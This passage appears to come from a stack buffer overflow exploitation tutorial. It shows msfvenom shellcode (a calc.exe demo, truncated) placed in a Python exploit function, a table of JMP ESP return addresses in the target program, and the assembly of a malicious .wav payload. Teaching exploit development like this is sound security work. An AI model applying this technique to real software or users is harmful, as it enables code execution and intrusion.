 Note: We used the `-b` to showcase how to eliminate any bad characters from our shellcode, where we can add all bad characters we need to eliminate (e.g. `'\x00\x0a\x0d'`). Even if our shellcode did not have any bad characters, this shellcode should still run, though the final shellcode is usually longer if we specify bad characters

Next, we can copy the `buf` variable into our exploit, where we will now define the final function `def exploit()`, which will be our main exploit code:

Code: python

```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
    buf =  b""
    buf += b"\xd9\xec\xba\x3d\xcb\x9e\x28\xd9\x74\x24\xf4\x58\x29"
    ...SNIP...
    buf += b"\xfd\x2c\x39\x51\x60\xbf\xa1\xb8\x07\x47\x43\xc5"
```

Tip: It is advised as a best practice to add a comment above any shellcode with the command used to generate it, in case we want to modify it or regenerate it in the future, or if we just wanted to know what it will execute.

---

## The Final Payload

Now that we have our shellcode, we can write the final payload that we'll write to the `.wav` file to be opened in our program. So far, we know the following:

1. `buffer`: We can fill the buffer by writing `b"A"*offset`
2. `EIP`: The following 4 bytes should be our return address
3. `buf`: After that, we can add our shellcode

In the previous section, we've found multiple return addresses that can work in executing any shellcode we write on the stack:

|`ESP`|`JMP ESP`|`PUSH ESP; RET`|
|---|---|---|
|`0014F974`|`00419D0B`|`0047D4F5`|
|-|`00463B91`|`00483D0E`|
|-|`00477A8B`|-|
|-|`0047E58B`|-|
|-|`004979F4`|-|

Any of these should work in executing the shellcode we write on the stack (feel free to test some of them). We will start with the most reliable one, `JMP ESP`, and we'll pick the first address `00419D0B` and write it as our return address.

To convert it from `hex` to an address in Little Endian, we'll use a python function called `pack` found in the `struct` library. We can import this function by adding the following line at the beginning of our code:
